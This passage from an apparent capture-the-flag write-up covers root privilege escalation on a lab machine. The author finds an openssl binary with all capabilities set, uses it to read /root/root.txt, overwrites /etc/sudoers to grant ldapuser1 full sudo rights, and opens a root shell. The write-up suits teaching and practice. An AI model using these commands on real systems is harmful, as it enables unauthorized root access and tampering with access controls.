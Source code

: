 ![](https://i.imgur.com/b1CbiJj.png)


I decided to check for the difference for **tcpdump** and **openssl** in home directory and files in their normal path and it turned out they are identical:

`md5sum openssl /usr/bin/openssl tcpdump /usr/sbin/tcpdump`

![](https://i.imgur.com/pOkugRE.png)


Remembering capabilities for previous privilege escalation, I checked capabilities and found an interesting difference for **openssl**:

`getcap tcpdump /usr/sbin/tcpdump` & `getcap openssl /usr/bin/openssl`

![](https://i.imgur.com/6aSxQir.png)


**=ep** means this binary has **ALL** the capabilities.

### Reading as root

If I was just looking to read root.txt, It is very easy:

`./openssl base64 -in /root/root.txt | base64 -d`

![](https://i.imgur.com/FDwiEuw.png)


### Shell as root

I first read **sudoers** file using openssl and made a copy to home directory:

`./openssl enc -in /etc/sudoers > sudoers`

![](https://i.imgur.com/fo3LnlI.png)


I edited **sudoer** file and added root permissions for ldapuser1:

![](https://i.imgur.com/zHurKaJ.png)


After editing **sudoers** file, I replaced old sudoers file with the new one:

`cat ./sudoers | ./openssl enc -out /etc/sudoers`

![](https://i.imgur.com/FPtFZeb.png)


I confirmed ldapusers1's permission with `sudo -l`

![](https://i.imgur.com/frTSegk.png)


Root shell was created:

`sudo su -`
